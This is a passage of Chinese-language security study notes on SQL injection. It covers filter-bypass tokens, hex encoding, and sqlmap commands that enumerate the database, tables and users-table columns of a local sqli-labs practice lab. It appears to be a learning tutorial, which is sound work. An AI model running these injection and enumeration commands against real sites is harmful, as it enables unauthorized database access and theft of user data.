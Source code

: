 ​		#

​		--+

​		/**/

###### 6.编码绕过

​		hex（十六进制）编码绕过。

### 七、SQL注入工具的使用

#### 1、sqlmap

```
D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"
```

######         1)查看是否存在注入漏洞。

```
 sqlmap使用的一些常用命令参数
 
 --current-db  查看当前数据库名称
 
 --dbs		   查看mysql里面的所有数据库。
 
 --batch	   遇到选项，默认选择yes
 
 --cookie	   带上网站cookie
 
 --purge	   清除sqlmap的缓存记录
```

###### 2)查询数据库名为security

```
D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1" --current-db
```

###### 3)查询security数据库下面的表信息。

```
 D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"   -D security --tables
```

###### 4)查看security数据库的users表下面的字段信息。

```
  D:\1security\sqlmap\安装包\sqlmap\sqlmap>python sqlmap.py -u  "http://127.0.0.1/sqli-labs/Less-2/?id=1"   -D security -Tusers --columns
```

###### 5)查看字段下面的详细信息。
